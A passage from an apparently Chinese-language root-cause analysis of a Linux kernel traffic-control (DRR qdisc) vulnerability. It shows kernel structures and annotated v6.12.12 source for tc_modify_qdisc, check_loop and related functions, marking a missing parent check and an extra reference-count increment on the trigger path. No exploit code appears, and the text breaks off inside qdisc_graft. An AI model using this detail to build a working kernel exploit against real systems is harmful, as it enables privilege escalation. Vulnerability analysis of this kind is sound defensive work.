            struct sk_buff *prev;       /* 链表上一节点 */
            union {
                struct net_device *dev; /* 关联设备 */
                unsigned long dev_scratch;
            };
        };
        struct rb_node rbnode;          /* 红黑树节点 */
        struct list_head list;          /* 链表节点 */
        struct llist_node ll_node;      /* 无锁链表节点 */
    };
    struct sock *sk;                    /* 所属 socket */
    union {
        ktime_t tstamp;                 /* 时间戳 */
        u64 skb_mstamp_ns;
    };
    char cb[48];                        /* 控制缓冲区，保存协议层私有数据 */
    union {
        struct {
            unsigned long _skb_refdst;
            void (*destructor)(struct sk_buff *);
        };
        struct list_head tcp_tsorted_anchor;
        unsigned long _sk_redir;
    };
    unsigned long _nfct;                /* netfilter 连接跟踪 */
    unsigned int len;                   /* 数据总长度 */
    unsigned int data_len;              /* 分片数据长度 */
    __u16 mac_len;                      /* MAC 头长度 */
    __u16 hdr_len;                      /* 头长度 */
    __u16 queue_mapping;                /* 队列映射 */
    __u8 cloned : 1;                    /* 是否被克隆 */
    __u8 nohdr : 1;                     /* 是否无头部 */
    __u8 fclone : 2;                    /* 克隆类型 */
    __u8 peeked : 1;                    /* 是否已 peek */
    __u8 head_frag : 1;                 /* 头部是否为分片 */
    __u8 pfmemalloc : 1;                /* 是否为内存分配标志 */
    __u8 pp_recycle : 1;                /* 页池回收标志 */
    __u8 active_extensions;             /* 活跃扩展数量 */
    union {
        struct {
            __u8 pkt_type : 3;          /* 数据包类型 */
            __u8 ignore_df : 1;         /* 是否忽略 DF */
            __u8 dst_pending_confirm : 1;
            __u8 ip_summed : 2;         /* IP 校验和状态 */
            __u8 ooo_okay : 1;          /* 是否允许乱序 */
            __u8 tstamp_type : 2;       /* 时间戳类型 */
            __u8 tc_at_ingress : 1;     /* 是否在 ingress */
            __u8 tc_skip_classify : 1;  /* 是否跳过分类 */
            __u8 remcsum_offload : 1;
            __u8 csum_complete_sw : 1;
            __u8 csum_level : 2;
            __u8 inner_protocol_type : 1;
            __u8 l4_hash : 1;           /* 是否使用四层哈希 */
            __u8 sw_hash : 1;           /* 是否软件哈希 */
            __u8 wifi_acked_valid : 1;
            __u8 wifi_acked : 1;
            __u8 no_fcs : 1;
            __u8 encapsulation : 1;     /* 是否封装 */
            __u8 encap_hdr_csum : 1;
            __u8 csum_valid : 1;
            __u8 ndisc_nodetype : 2;
            __u8 ipvs_property : 1;
            __u8 nf_trace : 1;
            __u8 offload_fwd_mark : 1;
            __u8 offload_l3_fwd_mark : 1;
            __u8 redirected : 1;
            __u8 from_ingress : 1;
            __u8 nf_skip_egress : 1;
            __u8 decrypted : 1;
            __u8 slow_gro : 1;
            __u8 csum_not_inet : 1;
            __u8 unreadable : 1;
            __u16 tc_index;             /* tc 索引 */
            u16 alloc_cpu;              /* 分配 CPU */
            union {
                __wsum csum;            /* 校验和 */
                struct {
                    __u16 csum_start;
                    __u16 csum_offset;
                };
            };
            __u32 priority;             /* 优先级，drr_classify 按此字段分类 */
            int skb_iif;                /* 入口设备索引 */
            __u32 hash;                 /* 哈希值 */
            union {
                u32 vlan_all;
                struct {
                    __be16 vlan_proto;
                    __u16 vlan_tci;
                };
            };
            union {
                unsigned int napi_id;
                unsigned int sender_cpu;
            };
            __u32 secmark;
            union {
                __u32 mark;
                __u32 reserved_tailroom;
            };
            union {
                __be16 inner_protocol;
                __u8 inner_ipproto;
            };
            __u16 inner_transport_header;
            __u16 inner_network_header;
            __u16 inner_mac_header;
            __be16 protocol;            /* 协议类型 */
            __u16 transport_header;     /* 传输层头偏移 */
            __u16 network_header;       /* 网络层头偏移 */
            __u16 mac_header;           /* MAC 层头偏移 */
        };
        struct {
            __u8 pkt_type : 3;
            __u8 ignore_df : 1;
            __u8 dst_pending_confirm : 1;
            __u8 ip_summed : 2;
            __u8 ooo_okay : 1;
            __u8 tstamp_type : 2;
            __u8 tc_at_ingress : 1;
            __u8 tc_skip_classify : 1;
            __u8 remcsum_offload : 1;
            __u8 csum_complete_sw : 1;
            __u8 csum_level : 2;
            __u8 inner_protocol_type : 1;
            __u8 l4_hash : 1;
            __u8 sw_hash : 1;
            __u8 wifi_acked_valid : 1;
            __u8 wifi_acked : 1;
            __u8 no_fcs : 1;
            __u8 encapsulation : 1;
            __u8 encap_hdr_csum : 1;
            __u8 csum_valid : 1;
            __u8 ndisc_nodetype : 2;
            __u8 ipvs_property : 1;
            __u8 nf_trace : 1;
            __u8 offload_fwd_mark : 1;
            __u8 offload_l3_fwd_mark : 1;
            __u8 redirected : 1;
            __u8 from_ingress : 1;
            __u8 nf_skip_egress : 1;
            __u8 decrypted : 1;
            __u8 slow_gro : 1;
            __u8 csum_not_inet : 1;
            __u8 unreadable : 1;
            __u16 tc_index;
            u16 alloc_cpu;
            union {
                __wsum csum;
                struct {
                    __u16 csum_start;
                    __u16 csum_offset;
                };
            };
            __u32 priority;
            int skb_iif;
            __u32 hash;
            union {
                u32 vlan_all;
                struct {
                    __be16 vlan_proto;
                    __u16 vlan_tci;
                };
            };
            union {
                unsigned int napi_id;
                unsigned int sender_cpu;
            };
            __u32 secmark;
            union {
                __u32 mark;
                __u32 reserved_tailroom;
            };
            union {
                __be16 inner_protocol;
                __u8 inner_ipproto;
            };
            __u16 inner_transport_header;
            __u16 inner_network_header;
            __u16 inner_mac_header;
            __be16 protocol;
            __u16 transport_header;
            __u16 network_header;
            __u16 mac_header;
        } headers;
    };
    sk_buff_data_t tail;                /* 数据尾部偏移 */
    sk_buff_data_t end;                 /* 数据结束偏移 */
    unsigned char *head;                /* 数据头指针 */
    unsigned char *data;                /* 数据指针 */
    unsigned int truesize;              /* 实际占用内存大小 */
    refcount_t users;                   /* 用户引用计数 */
    struct skb_ext *extensions;         /* skb 扩展 */
};
```

#### 2-3-6. netlink 消息层

漏洞入口由 netlink 消息驱动。`struct nlmsghdr` 与 `struct tcmsg` 承载请求类型、标志、父节点与 handle，`struct nlattr` 携带 `TCA_KIND`、`TCA_OPTIONS` 等配置，`struct netlink_ext_ack` 用于返回错误信息。

**`struct nlmsghdr`**：netlink 消息头。

```c
struct nlmsghdr {
    __u32 nlmsg_len;                    /* 消息总长度 */
    __u16 nlmsg_type;                   /* 消息类型，如 RTM_NEWQDISC、RTM_DELTCLASS */
    __u16 nlmsg_flags;                  /* 消息标志，如 NLM_F_REPLACE、NLM_F_CREATE */
    __u32 nlmsg_seq;                    /* 序列号 */
    __u32 nlmsg_pid;                    /* 发送者 PID */
};
```

**`struct tcmsg`**：tc 消息体。

```c
struct tcmsg {
    unsigned char tcm_family;           /* 地址族 */
    unsigned char tcm__pad1;            /* 填充 */
    unsigned short tcm__pad2;           /* 填充 */
    int tcm_ifindex;                    /* 设备索引 */
    __u32 tcm_handle;                   /* 类或 qdisc 的 handle，如 777: */
    __u32 tcm_parent;                   /* 父节点 ID，如 1:2 */
    __u32 tcm_info;                     /* 附加信息 */
};
```

**`struct nlattr`**：netlink 属性。

```c
struct nlattr {
    __u16 nla_len;                      /* 属性长度 */
    __u16 nla_type;                     /* 属性类型 */
};
```

**`struct netlink_ext_ack`**：netlink 错误上下文。

```c
struct netlink_ext_ack {
    const char *_msg;                   /* 错误信息指针 */
    const struct nlattr *bad_attr;      /* 非法属性 */
    const struct nla_policy *policy;    /* 属性策略 */
    const struct nlattr *miss_nest;     /* 缺失的嵌套属性 */
    u16 miss_type;                      /* 缺失的属性类型 */
    u8 cookie[20];                      /* 扩展错误 cookie */
    u8 cookie_len;                      /* cookie 长度 */
    char _msg_buf[80];                  /* 错误信息缓冲区 */
};
```

#### 2-3-7. 统计与辅助层

以下结构体在漏洞链中承担统计、遍历或辅助角色。`struct gnet_stats_basic_sync` 与 `struct gnet_stats_queue` 分别记录基础统计与队列统计；`struct net_rate_estimator` 与 `struct qdisc_size_table` 是可选组件；`struct check_loop_arg`、`struct qdisc_walker`、`struct tc_bind_class_args` 用于遍历与绑定。

**`struct gnet_stats_basic_sync`**：基础统计。

```c
struct gnet_stats_basic_sync {
    u64_stats_t bytes;                  /* 字节数 */
    u64_stats_t packets;                /* 包数 */
    struct u64_stats_sync syncp;        /* 同步原语 */
};
```

**`struct gnet_stats_queue`**：队列统计。

```c
struct gnet_stats_queue {
    __u32 qlen;                         /* 队列长度 */
    __u32 backlog;                      /* 积压字节数 */
    __u32 drops;                        /* 丢弃包数 */
    __u32 requeues;                     /* 重新入队包数 */
    __u32 overlimits;                   /* 超限次数 */
};
```

**`struct net_rate_estimator`**：速率估计器。

```c
struct net_rate_estimator {
    struct gnet_stats_basic_sync *bstats;/* 基础统计指针 */
    spinlock_t *stats_lock;             /* 统计锁 */
    bool running;                       /* 是否运行中 */
    struct gnet_stats_basic_sync *cpu_bstats;
                                        /* per-CPU 基础统计 */
    u8 ewma_log;                        /* 指数加权移动平均对数 */
    u8 intvl_log;                       /* 间隔对数 */
    seqcount_t seq;                     /* 顺序计数 */
    u64 last_packets;                   /* 上次包数 */
    u64 last_bytes;                     /* 上次字节数 */
    u64 avpps;                          /* 平均每秒包数 */
    u64 avbps;                          /* 平均每秒字节数 */
    unsigned long next_jiffies;         /* 下次触发时间 */
    struct timer_list timer;            /* 定时器 */
    struct callback_head rcu;           /* RCU 回调头 */
};
```

**`struct qdisc_size_table`**：尺寸表。

```c
struct qdisc_size_table {
    struct callback_head rcu;           /* RCU 回调头 */
    struct list_head list;              /* 全局尺寸表链表节点 */
    struct tc_sizespec szopts;          /* 尺寸规格 */
    int refcnt;                         /* 引用计数 */
    u16 data[];                         /* 尺寸数据 */
};
```

**`struct check_loop_arg`**：`check_loop()` 的遍历参数。

```c
struct check_loop_arg {
    struct qdisc_walker w;              /* 遍历器 */
    struct Qdisc *p;                    /* 候选父 qdisc */
    int depth;                          /* 递归深度 */
};
```

**`struct qdisc_walker`**：qdisc 遍历辅助结构。

```c
struct qdisc_walker {
    int stop;                           /* 是否停止遍历 */
    int skip;                           /* 跳过计数 */
    int count;                          /* 已遍历计数 */
    int (*fn)(struct Qdisc *, unsigned long, struct qdisc_walker *);
                                        /* 遍历回调 */
};
```

**`struct tc_bind_class_args`**：类绑定参数。

```c
struct tc_bind_class_args {
    struct qdisc_walker w;              /* 遍历器 */
    unsigned long new_cl;               /* 新类指针 */
    u32 portid;                         /* 端口 ID */
    u32 clid;                           /* 类标识 */
};
```

#### 2-3-8. tc 选项层

以下结构体用于承载 pfifo 与根 qdisc 的配置选项，以及尺寸表规格。

**`struct tc_fifo_qopt`**：pfifo 选项。

```c
struct tc_fifo_qopt {
    __u32 limit;                        /* 队列长度上限 */
};
```

**`struct tc_fifo_qopt_offload`**：pfifo offload 选项。

```c
struct tc_fifo_qopt_offload {
    enum tc_fifo_command command;       /* 命令类型 */
    u32 handle;                         /* handle */
    u32 parent;                         /* 父节点 */
    union {
        struct tc_qopt_offload_stats {
            struct gnet_stats_basic_sync *bstats;
                                        /* 基础统计 */
            struct gnet_stats_queue *qstats;
                                        /* 队列统计 */
        } stats;
    };
};
```

**`struct tc_root_qopt_offload`**：根 qdisc offload 选项。

```c
struct tc_root_qopt_offload {
    enum tc_root_command command;       /* 命令类型 */
    u32 handle;                         /* handle */
    bool ingress;                       /* 是否为 ingress */
};
```

**`struct tc_sizespec`**：尺寸表规格。

```c
struct tc_sizespec {
    unsigned char cell_log;             /* 单元对数 */
    unsigned char size_log;             /* 尺寸对数 */
    short cell_align;                   /* 单元对齐 */
    int overhead;                       /* 开销 */
    unsigned int linklayer;             /* 链路层类型 */
    unsigned int mpu;                   /* 最小协议单元 */
    unsigned int mtu;                   /* 最大传输单元 */
    unsigned int tsize;                 /* 尺寸表大小 */
};
```

#### 2-3-9. 底层原语

以下结构体是内核中最基础的链表、引用计数与同步原语，`drr_class->alist`、`Qdisc->hash`、`Qdisc->refcnt`、`Qdisc->rcu` 等字段均直接使用这些类型。

**`struct list_head`**：双向链表节点。

```c
struct list_head {
    struct list_head *next;             /* 下一节点 */
    struct list_head *prev;             /* 上一节点 */
};
```

**`struct hlist_node`**：哈希链表节点。

```c
struct hlist_node {
    struct hlist_node *next;            /* 下一节点 */
    struct hlist_node **pprev;          /* 指向上一节点 next 指针的指针 */
};
```

**`struct callback_head`**（即 `rcu_head`）：RCU 回调头。

```c
struct callback_head {
    struct callback_head *next;         /* 下一回调 */
    void (*func)(struct callback_head *head);
                                        /* 回调函数 */
};
```

**`spinlock_t`**：自旋锁。

```c
typedef struct spinlock {
    union {
        struct raw_spinlock rlock;      /* 原始自旋锁 */
#ifdef CONFIG_DEBUG_LOCK_ALLOC
        struct {
            u8 __padding[LOCK_PADSIZE];
            struct lockdep_map dep_map; /* 锁依赖图 */
        };
#endif
    };
} spinlock_t;
```

**`refcount_t`**：引用计数类型。

```c
typedef struct refcount_struct {
    atomic_t refs;                      /* 原子计数 */
} refcount_t;
```

以上结构体按从 `net_device` 到 `refcount_t` 的层次逐层展开，覆盖了漏洞链条中从设备级 qdisc 管理、qdisc 对象本身、类与调度器数据、分类器、数据包、netlink 消息到最底层链表与引用计数原语的完整类型体系。`Qdisc`、`drr_class`、`drr_sched`、`Qdisc_class_common`、`Qdisc_class_ops`、`Qdisc_ops`、`sk_buff`、`tcf_proto`、`tcf_result`、`plug_sched_data` 是与漏洞直接相关的关键结构；其余为辅助类型或基础设施。

### 2-4. 关键函数

漏洞的触发路径贯穿 `tc_modify_qdisc()` 的入口校验、`qdisc_graft()` 的替换逻辑、`qdisc_tree_reduce_backlog()` 的通知断裂、`drr_delete_class()` 的释放操作以及 `drr_dequeue()` 的出队遍历。以下按该路径逐一分析涉及的关键函数，给出 v6.12.12 内核中的完整实现，并说明各函数在链条中的作用。

#### 2-4-1. 入口校验

**`tc_modify_qdisc()`**：漏洞入口。在 `NLM_F_REPLACE` 路径中按 handle 找到 `FIFO(777:)`，调用 `check_loop()` 与 `qdisc_refcount_inc()`，不校验 `q->parent` 是否等于目标 `clid`。

```c
static int tc_modify_qdisc(struct sk_buff *skb, struct nlmsghdr *n,
                           struct netlink_ext_ack *extack)
{
    struct net *net = sock_net(skb->sk);              /* 取得消息所属的网络命名空间 */
    struct tcmsg *tcm;                                /* 指向 tcmsg 头部 */
    struct nlattr *tca[TCA_MAX + 1];                  /* 属性数组 */
    struct net_device *dev;                           /* 目标网络设备 */
    u32 clid;                                         /* 父节点 ID，来自 tcm->tcm_parent */
    struct Qdisc *q, *p;                              /* q: 目标 qdisc；p: 父 qdisc */
    int err;

replay:
    /* 每次重入时重新解析属性，避免状态被污染 */
    err = nlmsg_parse_deprecated(n, sizeof(*tcm), tca, TCA_MAX,
                                 rtm_tca_policy, extack);
    if (err < 0)
        return err;

    tcm = nlmsg_data(n);
    clid = tcm->tcm_parent;                           /* 本例中为 1:2 */
    q = p = NULL;

    dev = __dev_get_by_index(net, tcm->tcm_ifindex);
    if (!dev)
        return -ENODEV;

    if (clid) {
        if (clid != TC_H_ROOT) {
            if (clid != TC_H_INGRESS) {
                /* 按主号查找父 qdisc，即 DRR(1:) */
                p = qdisc_lookup(dev, TC_H_MAJ(clid));
                if (!p) {
                    NL_SET_ERR_MSG(extack, "Failed to find specified qdisc");
                    return -ENOENT;
                }
                /* 在父 qdisc 下按 classid 定位叶子 qdisc */
                q = qdisc_leaf(p, clid);
            } else if (dev_ingress_queue_create(dev)) {
                q = rtnl_dereference(dev_ingress_queue(dev)->qdisc_sleeping);
            }
        } else {
            q = rtnl_dereference(dev->qdisc);
        }

        /* handle 为 0 的默认 qdisc 不参与替换判断 */
        if (q && q->handle == 0)
            q = NULL;

        if (!q || !tcm->tcm_handle || q->handle != tcm->tcm_handle) {
            if (tcm->tcm_handle) {
                if (q && !(n->nlmsg_flags & NLM_F_REPLACE)) {
                    NL_SET_ERR_MSG(extack, "NLM_F_REPLACE needed to override");
                    return -EEXIST;
                }
                if (TC_H_MIN(tcm->tcm_handle)) {
                    NL_SET_ERR_MSG(extack, "Invalid minor handle");
                    return -EINVAL;
                }
                /* 按 handle 查找被替换的 qdisc，即 FIFO(777:) */
                q = qdisc_lookup(dev, tcm->tcm_handle);
                if (!q)
                    goto create_n_graft;
                if (n->nlmsg_flags & NLM_F_EXCL) {
                    NL_SET_ERR_MSG(extack, "Exclusivity flag on, cannot override");
                    return -EEXIST;
                }
                if (tca[TCA_KIND] &&
                    nla_strcmp(tca[TCA_KIND], q->ops->id)) {
                    NL_SET_ERR_MSG(extack, "Invalid qdisc name");
                    return -EINVAL;
                }
                if (q->flags & TCQ_F_INGRESS) {
                    NL_SET_ERR_MSG(extack,
                                   "Cannot regraft ingress or clsact Qdiscs");
                    return -EINVAL;
                }

                /* ★★★★★ 漏洞点 ★★★★★
                 * 这里只检测 q 与 p 之间是否构成父子循环，
                 * 并不检查 q->parent 是否等于当前的 clid。
                 * 因此 FIFO(777:) 虽然原本挂在 fifo_A(11:11) 下，
                 * 但只要与目标父类 fifo_B(1:2) 不构成循环，
                 * 就可以被合法地送入 graft 路径。
                 */
                if (q == p || (p && check_loop(q, p, 0))) {
                    NL_SET_ERR_MSG(extack, "Qdisc parent/child loop detected");
                    return -ELOOP;
                }
                if (clid == TC_H_INGRESS) {
                    NL_SET_ERR_MSG(extack, "Ingress cannot graft directly");
                    return -EINVAL;
                }

                /* ★★★★★ 漏洞点 ★★★★★
                 * 引用计数在此处被提升一次。
                 * FIFO(777:) 在替换前由 fifo_A(11:11) 持有，refcnt 为 1。
                 * 此处的 qdisc_refcount_inc() 使其变为 2。
                 * 后续 graft 路径不会再提升该计数。
                 */
                qdisc_refcount_inc(q);
                goto graft;
            } else {
                if (!q)
                    goto create_n_graft;

                /* 未显式指定 handle 时的语义判定：
                 * 根据请求标志决定走 change 还是 create/graft
                 */
                if (tca[TCA_KIND] &&
                    nla_strcmp(tca[TCA_KIND], q->ops->id)) {
                    if (req_create_or_replace(n) ||
                        req_create_exclusive(n))
                        goto create_n_graft;
                    else if (req_change(n))
                        goto create_n_graft2;
                }
            }
        }
    } else {
        if (!tcm->tcm_handle) {
            NL_SET_ERR_MSG(extack, "Handle cannot be zero");
            return -EINVAL;
        }
        q = qdisc_lookup(dev, tcm->tcm_handle);
    }

    /* 对已有 qdisc 进行参数变更 */
    if (!q) {
        NL_SET_ERR_MSG(extack, "Specified qdisc not found");
        return -ENOENT;
    }
    if (n->nlmsg_flags & NLM_F_EXCL) {
        NL_SET_ERR_MSG(extack, "Exclusivity flag on, cannot modify");
        return -EEXIST;
    }
    if (tca[TCA_KIND] && nla_strcmp(tca[TCA_KIND], q->ops->id)) {
        NL_SET_ERR_MSG(extack, "Invalid qdisc name");
        return -EINVAL;
    }
    err = qdisc_change(q, tca, extack);
    if (err == 0)
        qdisc_notify(net, skb, n, clid, NULL, q, extack);
    return err;

create_n_graft:
    if (!(n->nlmsg_flags & NLM_F_CREATE)) {
        NL_SET_ERR_MSG(extack, "Qdisc not found. To create specify NLM_F_CREATE flag");
        return -ENOENT;
    }
create_n_graft2:
    if (clid == TC_H_INGRESS) {
        if (dev_ingress_queue(dev)) {
            q = qdisc_create(dev, dev_ingress_queue(dev),
                             tcm->tcm_parent, tcm->tcm_parent,
                             tca, &err, extack);
        } else {
            NL_SET_ERR_MSG(extack, "Cannot find ingress queue for specified device");
            err = -ENOENT;
        }
    } else {
        struct netdev_queue *dev_queue;

        if (p && p->ops->cl_ops && p->ops->cl_ops->select_queue)
            dev_queue = p->ops->cl_ops->select_queue(p, tcm);
        else if (p)
            dev_queue = p->dev_queue;
        else
            dev_queue = netdev_get_tx_queue(dev, 0);

        q = qdisc_create(dev, dev_queue,
                         tcm->tcm_parent, tcm->tcm_handle,
                         tca, &err, extack);
    }
    if (q == NULL) {
        if (err == -EAGAIN)
            goto replay;
        return err;
    }

graft:
    /* 统一走 qdisc_graft 完成实际的替换动作 */
    err = qdisc_graft(dev, p, skb, n, clid, q, NULL, extack);
    if (err) {
        if (q)
            qdisc_put(q);
        return err;
    }
    return 0;
}
```

**`check_loop()`**：仅检查 `q` 与 `p` 之间是否构成父子循环，不读取 `q->parent`。该函数是父节点归属校验缺失的直接体现。

```c
static int check_loop(struct Qdisc *q, struct Qdisc *p, int depth)
{
    struct check_loop_arg arg;

    /* 若 q 没有类操作集，则不可能构成循环 */
    if (q->ops->cl_ops == NULL)
        return 0;

    arg.w.stop  = arg.w.skip = arg.w.count = 0;
    arg.w.fn    = check_loop_fn;          /* 遍历回调：检查子类是否指向 p */
    arg.depth   = depth;                  /* 递归深度，用于限制检查范围 */
    arg.p       = p;                      /* 候选父 qdisc */
    /* 遍历 q 的所有子类，若任一子路径命中 p 则置位 arg.w.stop */
    q->ops->cl_ops->walk(q, &arg.w);
    return arg.w.stop ? -ELOOP : 0;
}
```

**`qdisc_leaf()` / `drr_class_leaf()`**：在 `tc_modify_qdisc()` 中定位挂载在目标类下的叶子 qdisc。

```c
static struct Qdisc *qdisc_leaf(struct Qdisc *p, u32 classid)
{
    unsigned long cl;
    const struct Qdisc_class_ops *cops = p->ops->cl_ops;

    /* 父 qdisc 没有类操作集时无法定位叶子 */
    if (cops == NULL)
        return NULL;
    cl = cops->find(p, classid);          /* 按 classid 解析目标类 */

    if (cl == 0)
        return NULL;
    return cops->leaf(p, cl);             /* 取得该类持有的子 qdisc */
}

static struct Qdisc *drr_class_leaf(struct Qdisc *sch, unsigned long arg)
{
    struct drr_class *cl = (struct drr_class *)arg;

    return cl->qdisc;                     /* 直接返回该类持有的子 qdisc */
}
```

**`qdisc_lookup()`**：按 handle 在设备范围内查找 qdisc，不涉及 `parent` 字段。

```c
struct Qdisc *qdisc_lookup(struct net_device *dev, u32 handle)
{
    struct Qdisc *q;

    if (!handle)
        return NULL;
    /* 先在设备根 qdisc 的哈希表中查找 */
    q = qdisc_match_from_root(rtnl_dereference(dev->qdisc), handle);
    if (q)
        goto out;

    /* 未命中时，再尝试 ingress 队列的 qdisc_sleeping */
    if (dev_ingress_queue(dev))
        q = qdisc_match_from_root(
            rtnl_dereference(dev_ingress_queue(dev)->qdisc_sleeping),
            handle);
out:
    return q;
}
```

#### 2-4-2. 类创建

**`drr_change_class()`**：创建 DRR 类时通过 `kzalloc()` 分配 `struct drr_class`，并调用 `qdisc_create_dflt()` 为其分配默认 pfifo qdisc。

```c
static int drr_change_class(struct Qdisc *sch, u32 classid, u32 parentid,
                            struct nlattr **tca, unsigned long *arg,
                            struct netlink_ext_ack *extack)
{
    struct drr_sched *q = qdisc_priv(sch);            /* DRR 私有调度数据 */
    struct drr_class *cl = (struct drr_class *)*arg;  /* 传入/传出的类指针 */
    struct nlattr *opt = tca[TCA_OPTIONS];            /* DRR 选项属性 */
    struct nlattr *tb[TCA_DRR_MAX + 1];               /* 解析后的选项数组 */
    u32 quantum;                                      /* 从选项解析出的 quantum */
    int err;

    /* 未提供 DRR 选项时，无法继续 */
    if (!opt) {
        NL_SET_ERR_MSG(extack, "DRR options are required for this operation");
        return -EINVAL;
    }

    err = nla_parse_nested_deprecated(tb, TCA_DRR_MAX, opt, drr_policy,
                                      extack);
    if (err < 0)
        return err;

    /* 解析 TCA_DRR_QUANTUM；缺省时使用设备 MTU */
    if (tb[TCA_DRR_QUANTUM]) {
        quantum = nla_get_u32(tb[TCA_DRR_QUANTUM]);
        if (quantum == 0) {
            NL_SET_ERR_MSG(extack, "Specified DRR quantum cannot be zero");
            return -EINVAL;
        }
    } else
        quantum = psched_mtu(qdisc_dev(sch));

    /* cl 非空：变更已有类，只更新 quantum 与 estimator */
    if (cl != NULL) {
        if (tca[TCA_RATE]) {
            err = gen_replace_estimator(&cl->bstats, NULL,
                                        &cl->rate_est,
                                        NULL, true,
                                        tca[TCA_RATE]);
            if (err) {
                NL_SET_ERR_MSG(extack, "Failed to replace estimator");
                return err;
            }
        }

        sch_tree_lock(sch);
        if (tb[TCA_DRR_QUANTUM])
            cl->quantum = quantum;
        sch_tree_unlock(sch);

        return 0;
    }

    /* cl 为空：新建类，先分配 struct drr_class */
    cl = kzalloc(sizeof(struct drr_class), GFP_KERNEL);
    if (cl == NULL)
        return -ENOBUFS;

    gnet_stats_basic_sync_init(&cl->bstats);          /* 初始化基础统计 */
    cl->common.classid = classid;                     /* 记录类标识 */
    cl->quantum       = quantum;                      /* 记录 quantum */

    /* 为该类分配默认 pfifo qdisc，parent 传入 classid */
    cl->qdisc         = qdisc_create_dflt(sch->dev_queue,
                                          &pfifo_qdisc_ops, classid,
                                          NULL);
    /* 分配失败时退化为 noop qdisc，保证 cl->qdisc 始终非空 */
    if (cl->qdisc == NULL)
        cl->qdisc = &noop_qdisc;
    else
        qdisc_hash_add(cl->qdisc, true);              /* 将子 qdisc 加入设备哈希 */

    if (tca[TCA_RATE]) {
        err = gen_replace_estimator(&cl->bstats, NULL, &cl->rate_est,
                                    NULL, true, tca[TCA_RATE]);
        if (err) {
            NL_SET_ERR_MSG(extack, "Failed to replace estimator");
            qdisc_put(cl->qdisc);                     /* 回滚已分配的子 qdisc */
            kfree(cl);                                /* 回滚已分配的类对象 */
            return err;
        }
    }

    /* 将新类插入 DRR 类哈希表 */
    sch_tree_lock(sch);
    qdisc_class_hash_insert(&q->clhash, &cl->common);
    sch_tree_unlock(sch);

    qdisc_class_hash_grow(sch, &q->clhash);           /* 必要时扩展哈希表 */

    *arg = (unsigned long)cl;                         /* 回传新建的类指针 */
    return 0;
}
```

**`qdisc_create_dflt()`**：创建并初始化默认 qdisc，是 `parent` 字段的首次赋值点。

```c
struct Qdisc *qdisc_create_dflt(struct netdev_queue *dev_queue,
                                const struct Qdisc_ops *ops,
                                unsigned int parentid,
                                struct netlink_ext_ack *extack)
{
    struct Qdisc *sch;

    /* 提升模块引用计数，防止 ops 在 qdisc 存活期间被卸载 */
    if (!try_module_get(ops->owner)) {
        NL_SET_ERR_MSG(extack, "Failed to increase module reference counter");
        return NULL;
    }

    /* 分配 struct Qdisc 及 ops->priv_size 大小的私有数据 */
    sch = qdisc_alloc(dev_queue, ops, extack);
    if (IS_ERR(sch)) {
        module_put(ops->owner);
        return NULL;
    }
    sch->parent = parentid;                           /* 首次写入 parent 字段 */

    /* ops->init 为空或调用成功时返回该 qdisc，否则释放并返回 NULL */
    if (!ops->init || ops->init(sch, NULL, extack) == 0) {
        trace_qdisc_create(ops, dev_queue->dev, parentid);
        return sch;
    }

    qdisc_put(sch);
    return NULL;
}
```

**`qdisc_alloc()`**：分配并初始化 `struct Qdisc` 的通用字段，引用计数在此初始化为 1。

```c
struct Qdisc *qdisc_alloc(struct netdev_queue *dev_queue,
                          const struct Qdisc_ops *ops,
                          struct netlink_ext_ack *extack)
{
    struct Qdisc *sch;
    unsigned int size = sizeof(*sch) + ops->priv_size;  /* 总分配大小 */
    int err = -ENOBUFS;
    struct net_device *dev;

    if (!dev_queue) {
        NL_SET_ERR_MSG(extack, "No device queue given");
        err = -EINVAL;
        goto errout;
    }

    dev = dev_queue->dev;
    /* 按 NUMA 节点分配，保证局部性 */
    sch = kzalloc_node(size, GFP_KERNEL, netdev_queue_numa_node_read(dev_queue));

    if (!sch)
        goto errout;
    __skb_queue_head_init(&sch->gso_skb);             /* 初始化 gso 辅助队列 */
    __skb_queue_head_init(&sch->skb_bad_txq);         /* 初始化 bad_txq 辅助队列 */
    gnet_stats_basic_sync_init(&sch->bstats);         /* 初始化基础统计 */
    lockdep_register_key(&sch->root_lock_key);        /* 注册锁类 key */
    spin_lock_init(&sch->q.lock);                     /* 初始化队列锁 */
    lockdep_set_class(&sch->q.lock, &sch->root_lock_key);

    /* 若 ops 声明需要 per-CPU 统计，则分配 cpu_bstats 与 cpu_qstats */
    if (ops->static_flags & TCQ_F_CPUSTATS) {
        sch->cpu_bstats =
            netdev_alloc_pcpu_stats(struct gnet_stats_basic_sync);
        if (!sch->cpu_bstats)
            goto errout1;

        sch->cpu_qstats = alloc_percpu(struct gnet_stats_queue);
        if (!sch->cpu_qstats) {
            free_percpu(sch->cpu_bstats);
            goto errout1;
        }
    }

    spin_lock_init(&sch->busylock);                   /* 初始化忙碌锁 */
    lockdep_set_class(&sch->busylock,
                      dev->qdisc_tx_busylock ?: &qdisc_tx_busylock);

    /* seqlock has the same scope of busylock, for NOLOCK qdisc */
    spin_lock_init(&sch->seqlock);                    /* 初始化顺序锁 */
    lockdep_set_class(&sch->seqlock,
                      dev->qdisc_tx_busylock ?: &qdisc_tx_busylock);

    sch->ops       = ops;                             /* 记录操作集 */
    sch->flags     = ops->static_flags;               /* 记录静态标志 */
    sch->enqueue   = ops->enqueue;                    /* 记录入队回调 */
    sch->dequeue   = ops->dequeue;                    /* 记录出队回调 */
    sch->dev_queue = dev_queue;                       /* 记录所属设备队列 */
    sch->owner     = -1;                              /* 初始化 owner */
    netdev_hold(dev, &sch->dev_tracker, GFP_KERNEL);  /* 持有设备引用 */
    refcount_set(&sch->refcnt, 1);                    /* 引用计数初始为 1 */

    return sch;
errout1:
    lockdep_unregister_key(&sch->root_lock_key);
    kfree(sch);
errout:
    return ERR_PTR(err);
}
```

#### 2-4-3. Graft 路径

**`qdisc_graft()`**：graft 操作的通用入口。类路径中通过 `cops->find()` 解析目标类，再调用 `cops->graft()` 完成替换。

```c
static int qdisc_graft(struct net_device *dev, struct Qdisc *parent,
                       struct sk_buff *skb, struct nlmsghdr *n, u32 classid,
                       struct Qdisc *new, struct Qdisc *old,
                       struct netlink_ext_ack *extack)
{
    struct Qdisc *q = old;                       /* q 暂存 old，用于根路径分支 */
    struct net *net = dev_net(dev);              /* 取得设备所属网络命名空间 */

    if (parent == NULL) {
        /* 根路径：替换设备根 qdisc 或 ingress qdisc */
        unsigned int i, num_q, ingress;
        struct netdev_queue *dev_queue;

        ingress = 0;
        num_q = dev->num_tx_queues;
        if ((q && q->flags & TCQ_F_INGRESS) ||
            (new && new->flags & TCQ_F_INGRESS)) {
            ingress = 1;
            dev_queue = dev_ingress_queue(dev);
